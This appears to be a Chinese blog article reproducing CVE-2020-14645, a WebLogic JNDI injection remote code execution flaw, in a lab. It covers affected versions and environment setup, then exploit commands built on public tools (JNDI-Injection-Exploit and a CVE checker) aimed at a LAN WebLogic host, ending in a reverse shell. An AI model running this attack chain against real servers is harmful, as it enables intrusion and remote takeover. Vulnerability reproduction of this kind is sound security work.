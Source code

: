 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/COrpekNaitVQuCDHDfOl0w)

正文共： 1453字 17图  

预计阅读时间：4分钟

  

  
  
  

  

  

  

**简介**

  

  

WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

攻击者可利用漏洞实现远程代码执行。

  

  

  

  

  

**影响版本**

  

Oracle WebLogic Server 10.3.6.0.0

Oracle WebLogic Server 12.1.3.0.0

Oracle WebLogic Server 12.2.1.3.0

Oracle WebLogic Server 12.2.1.4.0

Oracle WebLogic Server 14.1.1.0.0

  

  

  

  

  

**复现环境**

  

  

  

  

下载JDK 6u211/7u201/8u191任意版本并配置环境变量

本人用的jdk8（下载地址：

https://mega.nz/file/1KIhjSCR#g0s5jekk3F9t55o3WXK_ahozuqn9_60eKSKt70we_uw）

WebLogic 12.2.1.4官方下载地址：

https://www.oracle.com/middleware/technologies/weblogic-server-downloads.html

安装

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

一直点下一步，勾选自助启动配置向导选项

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

进入配置向导，创建新域并勾选全部模板

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

安装成功后，使用cd跳到base_domain目录下

C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain

运行startWebLogic.cmd

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

浏览器访问http://IP:7001/console/login/LoginForm.jsp

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

使用JNDI工具搭建LDAP和HTTP服务，注意不能占用8180/1099/1389三个端口，修改要执行的命令后回车，会同时启动LDAP/RMI/HTTP三种服务，并且自动编译好带命令的class文件

JNDI工具下载地址：

https://github.com/welk1n/JNDI-Injection-Exploit

下载完成后进入目录编译

cd JNDI-Injection-Exploit

mvn clean package -DskipTests

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

编译的时间比较久，需要多等会（我在进行编译的时候，花了很久时间，是Maven源没更换导致的）

编译完成后进入target，使用命令

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C [command] -A [address]

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后使用CVE-2020-14645漏洞验证工具

下载地址：https://github.com/DSO-Lab/defvul（推荐使用镜像地址：https://github.com.cnpmjs.org/DSO-Lab/defvul）

进入CVE-2020-14645_Weblogic目录下进行编译

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

因为我kali中的jdk版本为11，该漏洞验证工具需要的jdk版本为1.8；于是我又屁颠屁颠在ubuntu上装java，装mvn；开始编译

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

编译成功：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后进入target

java -jar CVE-2020-14645.jar LDAP_IP:LDAP_PORT/#Exploit 

http://192.168.31.107:7001

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

成功反弹

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

END

  

  

  

扫描二维码

获取更多精彩

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)